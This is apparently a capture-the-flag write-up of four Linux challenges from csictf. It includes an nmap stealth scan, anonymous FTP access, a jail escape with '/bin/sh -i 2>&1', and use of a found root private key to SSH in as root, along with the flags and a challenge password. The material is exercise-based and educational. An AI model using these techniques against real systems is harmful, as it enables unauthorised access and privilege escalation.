 # LINUX

## AKA

nc chall.csivit.com 30611

### FLAG : csictf{1_4m_cl4rk3_k3nt}

![](img/aka1.png)

![](img/aka2.png)

## find32

An ssh shell was given ..

ssh user1@chall.csivit.com -p 30630 Password is find32

FLAG : csictf{th15_15_unu5u41}

![](img/find324.png)

As the flag is not wrapped in csictf{} i searched for "_"
and found

![](img/find321.png)

![](img/find322.png)

I got a dummy flag and some numbers written after user 2 maybe password.

So i logged onto user 2 and searched for "_" and got the flag.

![](img/fin323.png)


## HTB 0X1 

The IP was gien : So I began with **nmap scan**.


```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-19 20:40 EDT
Warning: 34.93.37.238 giving up on port because retransmission cap hit (6).
Stats: 0:32:58 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 70.31% done; ETC: 21:26 (0:13:54 remaining)
Nmap scan report for 238.37.93.34.bc.googleusercontent.com (34.93.37.238)
Host is up (0.10s latency).
Not shown: 63783 filtered ports, 1748 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5001/tcp  open  ftp        vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV IP 10.160.0.2 is not the same as 34.93.37.238
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:47.11.170.68
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 11
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
11387/tcp open  tcpwrapped
11550/tcp open  tcpwrapped
OS fingerprint not ideal because: Didn't receive UDP response. Please try again with -sSU
No OS matches for host
Network Distance: 22 hops
Service Info: OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 7001/tcp)
HOP RTT       ADDRESS
1   2.80 ms   192.168.43.1
2   ...
3   96.14 ms  10.72.107.18
4   83.13 ms  192.168.42.86
5   87.75 ms  192.168.42.33
6   109.94 ms 172.25.11.5
7   ... 12
13  83.18 ms  72.14.233.106
14  95.62 ms  142.250.37.1
15  98.83 ms  142.250.37.49
16  95.97 ms  142.250.226.136
17  ... 21
22  149.08 ms 238.37.93.34.bc.googleusercontent.com (34.93.37.238)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3514.43 seconds

```

At I first I thinks it would be two three steps hacking like extracting pass from ftp port .....
But unfortunately it was wasy easier I tried to connect ftp since Anonymous FTP login allowed there was no issue

```bash
ftp -p  34.93.37.238 5001

```
But since no commands were working I opened the ftp in browser and flag was their only :

![](/img/ht.png)

### csictf{4n0nym0u5_ftp_l0g1n}


## WHEREAMI  

Given IP : nc chall.csivit.com 30623

At first on connecting to it you will get that it's a linux jail but it can easily be break by **/bin/sh -i 2>&1**,  So I just followed the normal linux commands and found **id_rsa** for the root user, but when I was trying to connect through it was spiting this error.

```bash

where-am-i-544787754f-rhtps:/root/.ssh$ ssh -i /root/.ssh/id_rsa root@localhost
lsPseudo-terminal will not be allocated because stdin is not a terminal.
Could not create directory '/home/ctf/.ssh'.
Host key verification failed.

```

But by little bit  googling I got the solution to my errors from this [link](https://askubuntu.com/questions/45679/ssh-connection-problem-with-host-key-verification-failed-error).

Here is complete steps : 

```bash
root@kali:~# nc chall.csivit.com 30623
Where am I?
/bin/sh -i 2>&1
/bin/sh: can't access tty; job control turned off
where-am-i-544787754f-qn2wt:/home/ctf$ cd ../..
where-am-i-544787754f-qn2wt:/$ ls -la
total 76
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 .
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 ..
-r-xr-xr-x    1 root     root             0 Jul 20 07:51 .dockerenv
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 bin
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 dev
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 etc
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 home
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 lib
dr-xr-xr-x    1 root     root          4096 May 29 14:20 media
dr-xr-xr-x    1 root     root          4096 May 29 14:20 mnt
dr-xr-xr-x    1 root     root          4096 May 29 14:20 opt
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 proc
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 root
dr-xr-xr-x    1 root     root          4096 May 29 14:20 run
dr-xr-xr-x    1 root     root          4096 May 29 14:20 sbin
dr-xr-xr-x    1 root     root          4096 May 29 14:20 srv
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 sys
dr-xr-xr-x    1 root     root          4096 May 29 14:20 tmp
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 usr
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 var
where-am-i-544787754f-qn2wt:/$ cd root
where-am-i-544787754f-qn2wt:/root$ ls -la
total 12
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 .
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 ..
dr-xr-xr-x    1 root     root          4096 Jul 20 07:52 .ssh
where-am-i-544787754f-qn2wt:/root$ cd .ssh
where-am-i-544787754f-qn2wt:/root/.ssh$ ls -la
total 20
dr-xr-xr-x    1 root     root          4096 Jul 20 07:52 .
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 ..
-r-xr-xr-x    1 root     root           571 Jul 20 07:52 authorized_keys
-r-xr-xr-x    1 root     root          2602 Jul 20 07:51 id_rsa
-r-xr-xr-x    1 root     root           571 Jul 20 07:51 id_rsa.pub                                                                                                            
where-am-i-544787754f-qn2wt:/root/.ssh$ ssh -i id_rsa -t -t -o StrictHostKeyChecking=no  root@localhost                                                                        
root@kali:~# nc chall.csivit.com 30623
Where am I?                                                                                                                                                                    
/bin/sh -i 2>&1                                                                                                                                                                
/bin/sh: can't access tty; job control turned off                                                                                                                              
where-am-i-6d4d9d997d-w429b:/home/ctf$ cd ../..                                                                                                                                
cd root
where-am-i-6d4d9d997d-w429b:/$ where-am-i-6d4d9d997d-w429b:/root$ cd .ssh
where-am-i-6d4d9d997d-w429b:/root/.ssh$ ls -la
total 20
dr-xr-xr-x    1 root     root          4096 Jul 20 07:52 .
dr-xr-xr-x    1 root     root          4096 Jul 20 07:51 ..
-r-xr-xr-x    1 root     root           571 Jul 20 07:52 authorized_keys
-r-xr-xr-x    1 root     root          2602 Jul 20 07:51 id_rsa
-r-xr-xr-x    1 root     root           571 Jul 20 07:51 id_rsa.pub
where-am-i-6d4d9d997d-w429b:/root/.ssh$ ssh -i  /root/.ssh/id_rsa  -o StrictHostKeyChecking=no  root@localhost
Pseudo-terminal will not be allocated because stdin is not a terminal.
Could not create directory '/home/ctf/.ssh'.
Failed to add the host to the list of known hosts (/home/ctf/.ssh/known_hosts).
csictf{n1c3_d093_w0w_5uch_55h}where-am-i-6d4d9d997d-w429b:/root/.ssh$

```
### csictf{n1c3_d093_w0w_5uch_55h}

